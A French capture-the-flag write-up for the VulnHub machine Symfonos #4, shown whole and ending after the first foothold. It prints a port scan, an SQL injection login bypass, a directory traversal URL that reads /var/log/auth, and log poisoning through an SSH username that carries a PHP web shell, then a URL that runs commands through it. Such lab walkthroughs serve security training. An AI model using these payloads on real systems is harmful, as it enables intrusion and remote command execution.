 # Solution du CTF Symphonos #4 de VulnHub

Jamais 3 sans 4 avec [cet autre CTF](https://vulnhub.com/entry/symfonos-4,347/).

```
Nmap scan report for 192.168.56.115
Host is up (0.00023s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10 (protocol 2.0)
| ssh-hostkey: 
|   2048 f9c17395a417dff6ed5c8e8ac805f98f (RSA)
|   256 bec1fdf13364399a683564f9bd27ec01 (ECDSA)
|_  256 66f76ae8edd51d2d36326439384f9c8a (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
```

Comme pour le précédent il faut énumérer un moment le serveur web avant de trouver quelque chose d'intéressant.

Un premier lieu je trouve un dossier `/gods` contenant trois fichiers à l'extension `.log` nommés après les dieux `hades`, `poseidon` et `zeus`.

Dans un second temps je trouve un fichier `sea.php` qui redirige vers une mire de login `atlantis.php`.

La mire de login en question est bypassable car on parvient à une zone authentifiée si on saisit le nom d'utilisateur `' OR '1'=1`.

On a alors un champ `select` dont les valeurs correspondent aux noms de dieux précédents et la sélection de l'une des entrées affiche le fichier de log correspondant. On est donc sur une faille de directory traversal ou même d'inclusion PHP.

Le script ajoute donc de lui même le préfixe `.log` qui ne semble pas bypassable avec un null byte (`%00` à l'ancienne) et l'inclusion distante n'est pas activée (donc on ne peut pas passer un préfixe `http://` ou ftp://).

## I am payload

Aïe, aïe, aïe il semble qu'on est condamné à inclure un fichier avec l'extension `.log`. Heureusement l'auteur du CTF a pensé à nous car `/var/log/auth.log` est accessible :

http://192.168.56.115/sea.php?file=../../../../var/log/auth

Pour injecter notre code PHP dans ce fichier de log on va se connecter via SSH avec un compte invalide :

```bash
ssh -l '<?php system($_GET[chr(99)]); ?>' 192.168.56.115
```

On peut désormais exécuter des commandes de cett façon :

http://192.168.56.115/sea.php?file=../../../../var/log/auth&c=whoami
